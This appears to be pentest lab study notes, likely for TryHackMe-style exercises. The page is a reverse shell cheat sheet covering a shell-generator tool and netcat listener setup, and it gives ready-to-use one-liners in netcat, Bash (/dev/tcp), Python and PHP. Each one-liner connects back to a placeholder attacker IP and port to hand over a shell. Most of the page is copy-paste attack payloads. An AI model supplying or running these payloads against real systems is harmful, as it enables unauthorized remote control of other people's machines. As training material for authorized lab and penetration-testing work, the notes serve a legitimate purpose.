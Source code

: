 # Reverse Shell Techniques

A reverse shell is a technique used in penetration testing or hacking to gain remote access to a target machine. It involves establishing a connection from the target machine back to the attacker's machine, allowing the attacker to execute commands on the target system. Here are some commonly used reverse shell techniques:

## Use Reverse Shell Generator

- On your AttackBox, go to Firefox > Bookmarks > Revshell Generator (or http://localhost:7778/)
- Under IP & Port, add your attackbox IP and Port on which you want your vulnerable machine to connect.
- Under Reverse choose among wide variety of Reverse Shells provided. Common ones are: `nc mkfifo`, `Python #2`, `Python3 #2`, `Python3 shortest`.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Copy the reverse shell and paste it to the location where it gets executed by the vulnerable machine.

## Netcat Reverse Shell

- Netcat, or `nc`, is a versatile networking utility that can be used to establish a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example: `nc -lvnp <port>` on the attacker's machine and `nc <attacker_ip> <attacker_port> -e /bin/bash` on the target machine.

Resource link: [Netcat Reverse Shell Cheat Sheet (highon.coffee)](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

## Bash Reverse Shell

- Bash, the popular Unix shell, can be used to create a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example 1: `bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1` on the target machine.
- Example 2 (Pentest Monkey Bash Reverse Shell): `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'` on the target machine.

Resource link: [Bash Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Python Reverse Shell

- Python scripting language can be used to create a reverse shell connection.
- The attacker sets up a listener using `nc -lvp <attacker_port>` and waits for the target machine to connect back.
- Example: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target machine. Change the values on `<attacker_ip>` and `<attacker_port>`

Resource link: [Python Reverse Shell Cheat Sheet (sushant747.gitbooks.io)](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)

## PHP Reverse Shell

- PHP can be used to create a reverse shell connection.
- The attacker sets up a PHP script as the listener and waits for the target machine to connect back.
- Example (Pentest Monkey PHP Reverse Shell): `php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'` on the target machine.

Resource link: [PHP Reverse Shell Cheat Sheet (pentestmonkey.net)](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
